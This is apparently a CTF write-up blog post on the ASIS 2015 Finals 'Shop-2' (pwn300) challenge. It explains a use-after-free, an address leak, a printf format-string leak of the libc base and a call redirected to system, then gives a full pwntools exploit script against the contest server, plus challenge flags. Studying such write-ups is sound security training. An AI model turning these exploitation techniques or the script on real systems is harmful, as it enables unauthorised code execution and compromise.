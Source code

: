 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Shop-2 (pwn300)"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The second part of the challenge was exploiting a UAF (use-after-free) vulnerability.

This could be triggered if the admin deleted a "Bragisdumu" (btw what is a Bragisdumu!? :D).

But there were some restrictions, for example: the admin could only delete items if there were no stock of it, so we had to buy them first. But you could not buy any amount of them, only 16, so you had to buy the Knight Rider one.

Although the program tried to nullify the object, but it did not nullify the pointer, but the active field of the pointed object. And then deleted the object. So it did not trigged the vulnerability by itself, you also had to use a long enough username + password.

To make the exploit stable I had to leak some addresses. To do this I overwrite the whole item structure until the ptr value:

{% highlight text %}
00000000 Item            struc ; (sizeof=0x88)   ; XREF: .data:globItemStructs9r
00000000 idx             dd ?                    ; XREF: .data:globItemPtrs16o
00000004 inited          db ?
00000005 name            db 100 dup(?)
00000069 mostPopular     db ?
0000006A align1          db 6 dup(?)
00000070 price           dq ?
00000078 stock           dd ?
0000007C align2          dd ?
00000080 ptr             dq ?
00000088 Item            ends
{% endhighlight %}

This way the address of the KnightRider preview function is leaked out, then I logged out and logged in with username which overwrite the preview function call (0x1275) to printf in the PLT (0xda0). As the parameter for this call is the Item structure's address which is fully controlled by me I could sent in a format string which contained a lot of "%p"'s, thus leaking out the libc base address from the stack (among other things).

Then in the next round I simple overwrite the pointer with the calculated system address and got a shell :)

The flag was:
{% highlight text %}
ASIS{5249b4cc1527739c57fbd04ab14292ca}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = "ASIS{304b0f16eb430391c6c86ab0f3294211}"

r = remote('185.106.120.220', 1337)

r.send("guest\nguest\n2\n3\n2\n3\n8\nadmin\n"+adminPass+"\n5\n3\n8\nguest\nguest"+"A"*31+"\x01"+"C"*267+"\n3\n")
result = r.recvuntil("your orders?")
KnightRiderAddrStr = re.search('CCCC+(.*?), price', result, re.DOTALL).group(1) + '\x00\x00'
print 'KnightRider str = %r' % KnightRiderAddrStr
KnightRiderAddr = u64(KnightRiderAddrStr)
printfAddr = KnightRiderAddr - 0x1275 + 0xda0
print 'KnightRider addr = %x' % KnightRiderAddr
print 'printf addr = %x' % printfAddr

fs="%p|"*30;
r.send("0\n8\nguest\nguest"+"A"*31+"\x01|"+fs+"D"*(122-len(fs))+p64(printfAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
leaks = r.recvline().split('|')
print leaks
baseLeak = int(leaks[4][2:], 16)
print "leak = %x" % baseLeak
systemAddr = baseLeak - 0x7ffff7dd4060 + 0x7ffff7a5b640
print "system = %x" % systemAddr

r.send("8\nguest\nguest"+"A"*27+"sh\x00\x00\x01"+"C"*123+p64(systemAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
r.send('cat flag\n')
print 'Flag =' + r.recvline()
r.interactive()
{% endhighlight %}